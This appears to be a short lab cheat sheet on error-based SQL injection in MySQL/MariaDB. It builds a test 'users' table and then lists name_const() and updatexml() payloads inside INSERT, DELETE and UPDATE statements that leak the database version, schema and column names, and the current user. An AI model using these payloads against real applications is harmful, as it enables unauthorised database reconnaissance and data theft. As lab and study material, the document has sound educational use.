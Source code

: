 # SQLi-select-insert-update-delete
- Create a db for the lab:
```
Create database newdb;
use newdb
CREATE TABLE users
(
id int(3) NOT NULL AUTO_INCREMENT,
username varchar(20) NOT NULL,
password varchar(20) NOT NULL,
PRIMARY KEY (id)
);
```
- Now let’s insert some sample data into our database. The syntax would be

```
insert into users (id, username, password) values (1, ‘Jane’, ‘Eyre’);
```
- Using name_const()
  
Syntax:
```
insert into users (id, username, password) values (1,"*(select*from(select(name_const(version(),1)),name_const(version(),1))a)* ", 'Eyre');
```
- Using updatexml()
  * The updatexml() function is an SQL function in MariaDB and MySQL commonly used to perform operations on XML data. However, when used with non-standard parameters or non-XML data, it can cause errors and this error message can sometimes display sensor information such as database version instead of . This is often leveraged in SQL injection attacks to get information from the database.
  
 Syntax
 
  updatexml(XML_document, XPath_string, new_value)

Syntax

  * Select
  ```
SELECT updatexml(1, concat(0x7e, database()), 0); //Dump current db name
  ```
  ```
SELECT updatexml(1, concat(0x7e, (SELECT group_concat(schema_name) FROM information_schema.schemata)), 0);//Dump list of db
  ```
  *  Insert:
    ```
    INSERT INTO users (id, username, password) VALUES (3, updatexml(1, concat(0x7e, (version())), 0), 'Eyre');
    ```
  *  Delete:
    ```
    DELETE FROM users WHERE id = 1 OR updatexml(1, concat(0x7e, version()), 0);
    ```
  * Update:
```
    UPDATE users SET password = 'dummy'
     WHERE id = 2 AND username = 'Nervo' OR updatexml(1, concat(0x7e, version()), 0);  //Statement AND is wrong and updatexml(1, concat(0x7e, version()), 0) is alway dump error -->it True
```
```
    SET password = (SELECT updatexml(1, concat(0x7e, version()), 0))
        WHERE id = 2 AND username = 'Nervo';
```
```
UPDATE users
SET password = 'dummy'
WHERE (id = 2 AND username = 'Nervo') OR updatexml(1, concat(0x7e, (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' AND table_schema = database())), 0); //Dump list of comlumns
```
```
UPDATE users
SET password = 'dummy'
WHERE (id = 2 AND username = 'Nervo') OR updatexml(1, concat(0x7e, (SELECT user())), 0); // Dump curent user
```


    
    
